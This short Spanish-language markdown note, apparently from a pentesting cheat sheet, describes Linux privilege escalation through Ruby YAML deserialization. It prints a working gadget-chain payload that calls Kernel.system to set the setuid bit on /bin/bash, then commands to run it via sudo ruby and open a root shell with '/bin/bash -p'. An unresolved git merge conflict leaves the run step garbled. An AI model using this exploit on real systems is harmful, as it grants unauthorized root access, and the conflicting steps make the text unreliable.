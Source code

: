 Si el archivo en el cual tienes permisos tiene las función para leer un yml o puedes editarlo agrega: ==File.read(‘sample.yml’)==

Después agrega esto en el archivo .yml

```yml

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

```


Ejecuta el archivo,
<<<<<<< HEAD
  ```bash
  
sudo /usr/bin/ruby /directoriodelarchivo
```
=======
```bash
sudo /usr/bin/ruby archivo.rb
```

>>>>>>> 5b0814ed63ffd2f30d31a95ba5bd05c89207d07d
Ahora typea

```bash

/bin/bash -p
```
